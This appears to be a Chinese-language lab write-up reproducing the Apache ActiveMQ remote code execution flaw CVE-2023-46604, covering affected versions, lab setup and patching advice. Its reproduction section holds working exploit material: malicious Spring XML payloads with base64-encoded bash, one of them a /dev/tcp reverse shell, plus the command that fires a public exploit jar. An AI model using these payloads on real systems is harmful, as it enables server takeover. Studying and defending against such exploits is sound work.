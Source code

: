 # Apache ActiveMQ 远程代码执行漏洞 CVE-2023-46604

## 漏洞描述

Apache ActiveMQ 是 Apache 软件基金会研发的一个开源消息中间件，为应用程序提供高效的、可扩展的、稳定的和安全的企业级消息通信。

当未经身份认证的攻击者访问 Apache ActiveMQ 的 61616 端口时，可通过发送恶意数据在远程服务器上执行代码，进而控制 Apache ActiveMQ 服务器。

更新日期：2023-10-25

参考链接：

- https://activemq.apache.org/activemq-5016006-release
- https://github.com/Fw-fW-fw/activemq_Throwable

## 漏洞影响

```
Apache ActiveMQ 5.18.0 < 5.18.3
Apache ActiveMQ 5.17.0 < 5.17.6
Apache ActiveMQ 5.16.0 < 5.16.7
Apache ActiveMQ < 5.15.16
Apache ActiveMQ Legacy OpenWire Module 5.18.0 < 5.18.3
Apache ActiveMQ Legacy OpenWire Module 5.17.0 < 5.17.6
Apache ActiveMQ Legacy OpenWire Module 5.16.0 < 5.16.7
Apache ActiveMQ Legacy OpenWire Module 5.8.0 < 5.15.16
```

## 环境搭建

在 ActiveMQ 官方下载 5.16.6 版本安装包，链接：https://activemq.apache.org/activemq-5016006-release

解压安装包，在目录 ./apache-activemq-5.16.6/bin/linux-x86-64 下以控制台模式启动，方便排查报错信息，注意使用 jdk 11：

```
./activemq console
```

![image-20231027181920007](images/image-20231027181920007.png)

访问 8161 端口管理页面：

![image-20231030090050081](images/image-20231030090050081.png)

## 漏洞复现

编写 poc.xml，托管在 8080 端口。开启 http 服务：

```
python3 -m http.server 8080
```

![image-20231027181935525](images/image-20231027181935525.png)

执行命令：

```
touch /tmp/success
-------
base64编码：dG91Y2ggL3RtcC9zdWNjZXNz
```

poc.xml（注意缩进）：

```
<beans xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="
        http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">  
  
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
		        <value>{echo,dG91Y2ggL3RtcC9zdWNjZXNz}|{base64,-d}|{bash,-i}</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

使用 [poc](https://github.com/Fw-fW-fw/activemq_Throwable) 进行复现：

```
java -jar activemq_poc.jar 127.0.0.1 61616 http://127.0.0.1:8080/poc.xml
```

成功执行 `touch /tmp/success`：

![image-20231027181843920](images/image-20231027181843920.png)

反弹 shell 的 poc.xml：

```
<beans xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="
        http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">  
  
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
		        <value>{echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}</value>
                
            </list>
        </constructor-arg>
    </bean>
</beans>
```

![image-20231030083005877](images/image-20231030083005877.png)

## 修复建议

根据影响版本中的信息，排查并升级到安全版本，或直接访问参考链接获取官方更新指南。补丁下载链接：https://github.com/apache/activemq/tags
